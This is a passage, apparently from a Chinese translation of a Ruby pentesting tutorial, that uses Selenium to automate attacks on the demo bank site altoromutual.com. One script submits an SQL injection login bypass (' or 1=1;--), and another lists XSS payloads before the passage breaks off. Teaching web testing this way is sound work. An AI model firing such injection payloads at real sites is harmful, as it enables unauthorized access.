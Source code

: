 ```
```

> 请注意，发送的实际键取决于您的操作系统，例如，Mac 使用`COMMAND + t`，而不是`CONTROL + t`。

### POST 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'selenium-webdriver'

browser = Selenium::WebDriver.for :firefox
browser.get "http://www.altoromutual.com/bank/login.aspx"

wait = Selenium::WebDriver::Wait.new(:timeout => 15)        # Set waiting timeout
# Find the input elements to interact with later.
input = wait.until {
  element_user = browser.find_element(:name, "uid")
  element_pass = browser.find_element(:name, "passw")
  # Retrun array of elements when get displayed
  [element_user, element_pass] if element_user.displayed? and element_pass.displayed?
}

input[0].send_keys("' or 1=1;--")   # Send key for the 1st element
input[1].send_keys("password")      # Send key fro the next element
sleep 1

# Click/submit the button based the form it is in (you can also call 'btnSubmit' method)
submit = browser.find_element(:name, "btnSubmit").click #.submit

# browser.quit 
```

让我们测试页面是否存在 XSS 漏洞。首先，我将列出我们需要浏览器执行的操作。

1.  打开一个浏览器窗口（Firefox）

1.  导航到一个 URL（altoromutual.com）

1.  执行一些操作（发送 XSS 负载）

1.  检查有效负载是否起作用（弹出）或者是误报

1.  在终端上打印成功的有效负载

**selenium-xss.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'selenium-webdriver'

payloads =
  [
    "<video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

browser = Selenium::WebDriver.for :firefox                  # You can use :ff too
browser.manage.window.resize_to(500, 400)                   # Set browser size
browser.get "http://www.altoromutual.com/search.aspx?"

```
